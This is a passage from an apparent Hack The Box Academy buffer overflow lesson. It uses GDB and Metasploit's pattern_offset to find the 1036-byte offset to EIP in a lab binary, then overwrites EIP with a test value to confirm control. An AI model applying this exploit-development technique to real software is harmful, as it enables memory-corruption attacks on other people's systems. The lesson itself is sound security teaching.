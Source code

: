 Now we replace our 1200 "`U`"s with the generated patterns and focus our attention again on the EIP.

#### GDB - Using Generated Pattern

GDB - Using Generated Pattern

```shell-session
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

#### GDB - EIP

GDB - EIP

```shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called "`pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

#### GDB - Offset

GDB - Offset

```shell-session
W4H33D@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

If we now use precisely this number of bytes for our "`U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "`\x66`" and execute it to ensure we control the `EIP`.

#### GDB Offset

GDB Offset

```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
